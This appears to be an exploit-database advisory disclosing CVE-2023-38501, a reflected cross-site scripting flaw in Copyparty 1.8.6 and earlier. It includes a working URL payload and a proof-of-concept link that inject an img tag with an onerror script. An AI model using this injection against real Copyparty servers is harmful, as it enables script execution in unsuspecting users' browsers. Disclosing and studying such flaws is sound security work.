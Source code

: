 # Copyparty v1.8.6 - Reflected Cross Site Scripting (XSS)
* Date: 23/07/2023
* Exploit Author: Vartamtzidis Theodoros (@TheHackyDog)
* Vendor Homepage: https://github.com/9001/copyparty/
* Software Link: https://github.com/9001/copyparty/releases/tag/v1.8.6
* Version: <=1.8.6
* Tested on: Debian Linux
* CVE : CVE-2023-38501



## Description
Copyparty is a portable file server. Versions prior to 1.8.6 are subject to a reflected cross-site scripting (XSS) Attack. 

Vulnerability that exists in the web interface of the application could allow an attacker to execute malicious javascript code by tricking users into accessing a malicious link.

## Payload
?k304=y%0D%0A%0D%0A%3Cimg+src%3Dcopyparty+onerror%3Dalert(1)%3E

## POC
https://localhost:3923/?k304=y%0D%0A%0D%0A%3Cimg+src%3Dcopyparty+onerror%3Dalert(1)%3E
